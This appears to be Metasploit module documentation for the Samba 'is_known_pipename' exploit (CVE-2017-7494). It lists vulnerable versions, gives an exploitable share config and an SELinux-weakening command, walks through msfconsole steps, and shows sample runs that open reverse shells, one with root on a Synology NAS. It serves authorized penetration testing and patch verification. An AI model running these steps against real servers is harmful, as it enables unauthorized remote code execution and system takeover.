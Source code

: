 ## Vulnerable Application

This module exploits Samba from versions 3.5.0-4.4.14, 4.5.10, and 4.6.4 by loading a malicious shared library.
Samba's download archives are [here](https://download.samba.org/pub/samba/stable/).  There are some requirements
for this exploit to be successful:

1. Valid credentials
2. Writeable folder in an accessible share
3. Server-side path of the writeable folder

However, in some cases anonymous access with common filesystem locations can be used to automate exploitation.

A vulnerable Samba config may have a share similar to the following in `smb.conf`.  This is a setup for 'easy' exploitation
where no SMB options are required to be set:

```
[exploitable]
comment = CVE-2017-7494
path = /tmp
writable = yes
browseable = yes
guest ok = yes
```

Verified on:

1. Synology DS412+ DSM 6.1.1-15101 Update 2 (Samba 4.4.9)
2. Synology DS412+ DSM 6.1.1-15101 Update 3 (Samba 4.4.9)
3. Synology DS1512+ DSM 6.1.1-15101 Update 2 (Samba 4.4.9)
4. Synology DS1512+ DSM 6.1.1-15101 Update 3 (Samba 4.4.9)
5. Synology DS2415+ DSM 6.1-15047 (Samba 4.3.11)
6. Ubuntu 14.04.5 x64 (Samba 4.3.9)
7. Ubuntu 15.04 (Samba 4.1.13)
8. Ubuntu 16.04 (Samba 4.3.11)
   * 1:4.3.11+dfsg-0ubuntu0.16.04.3 and older are vulnerable, fixed in [2:4.3.11+dfsg-0ubuntu0.16.04.7](https://launchpad.net/ubuntu/+source/samba/2:4.3.11+dfsg-0ubuntu0.16.04.7)
9. Fedora 24 (Samba 4.4.13)

Currently not working against:

1. QNAP NAS Samba 4.4.9 on armv71
2. WD MyClous NAS Samba 4.0.0rc5 armv71

### SELinux

Fedora (and possibly Redhat) are not exploitable in their default installation.  SELinux must be adjusted to allow nmbd to use net_admin, and smbd to exec the payload.

```
echo -ne "type=AVC msg=audit(1495745298.086:334): avc:  denied  { execstack } for  pid=2365 comm="smbd" scontext=system_u:system_r:smbd_t:s0 tcontext=system_u:system_r:smbd_t:s0 tclass=process permissive=0\ntype=AVC msg=audit(1495717997.099:267): avc:  denied  { net_admin } for  pid=959 comm="nmbd" capability=12  scontext=system_u:system_r:nmbd_t:s0 tcontext=system_u:system_r:nmbd_t:s0 tclass=capability permissive=0\ntype=AVC msg=audit(1495745002.690:308): avc:  denied  { execmem } for  pid=1830 comm="smbd" scontext=system_u:system_r:smbd_t:s0 tcontext=system_u:system_r:smbd_t:s0 tclass=process permissive=0\ntype=AVC msg=audit(1495745183.319:331): avc:  denied  { execute } for  pid=2313 comm="smbd" path="/tmp/ucFtDpZI.so" dev="tmpfs" ino=27436 scontext=system_u:system_r:smbd_t:s0 tcontext=system_u:object_r:smbd_tmp_t:s0 tclass=file permissive=0" | audit2allow -M cve-2017-7494; semodule -X 300 -i cve-2017-7494.pp
```

## Verification Steps

1. Start msfconsole
2. Do: ```use exploit/linux/samba/is_known_pipename```
3. Do: ```set rhost [ip]```
4. Do: ```set target [target #]```
5. Do: ```exploit```

## Options

  **SMB_SHARE_NAME**

  The name of the SMB share containing a writeable directory.  Shares are automatically scanned for, and if this
  variable is non-blank, it will be preferred.

  **SMB_SHARE_BASE**

  The remote filesystem path correlating with the SMB share name.  This value is preferred, but other values are
  brute forced including:

1. /volume1
2. /volume2
3. /volume3
4. /shared
5. /mnt
6. /mnt/usb
7. /media
8. /mnt/media
9. /var/samba
10. /tmp/home/home/shared

  **SMB_FOLDER**

  The directory to use within the writeable SMB share.  Writable directories are automatically scanned for, and if this
  variable is non-blank, it will be preferred.

## Scenarios

### Synology DS412+ w/ INTEL Atom D2700 on DSM 6.1.1-15101 Update 2

```
msf exploit(is_known_pipename) > exploit

[*] Started reverse TCP handler on 1.2.3.117:4444
[*] 1.2.3.119:445 - Using location \\1.2.3.119\ESX\ for the path
[*] 1.2.3.119:445 - Payload is stored in //1.2.3.119/ESX/ as eePUbtdw.so
[*] 1.2.3.119:445 - Trying location /volume1/eePUbtdw.so...
[-] 1.2.3.119:445 - Probe: /volume1/eePUbtdw.so: The server responded with error: STATUS_OBJECT_NAME_NOT_FOUND (Command=162 WordCount=0)
[*] 1.2.3.119:445 - Trying location /volume1/ESX/eePUbtdw.so...
[*] Command shell session 1 opened (1.2.3.117:4444 -> 1.2.3.119:34366) at 2017-05-24 21:12:07 -0400

id
uid=0(root) gid=0(root) groups=0(root),100(users)
uname -a
Linux synologyNAS 3.10.102 #15101 SMP Fri May 5 12:01:38 CST 2017 x86_64 GNU/Linux synology_cedarview_412+
```

### Ubuntu 16.04

```
msf exploit(is_known_pipename) > exploit

[*] Started reverse TCP handler on 192.168.0.3:4444
[*] 192.168.0.3:445 - Using location \\192.168.0.3\yarp\h for the path
[*] 192.168.0.3:445 - Payload is stored in //192.168.0.3/yarp/h as GTithXJz.so
[*] 192.168.0.3:445 - Trying location /tmp/yarp/h/GTithXJz.so...
[*] Command shell session 6 opened (192.168.0.3:4444 -> 192.168.0.3:45076) at 2017-05-24 19:41:40 -0500

id
uid=65534(nobody) gid=0(root) groups=0(root),65534(nogroup)
```
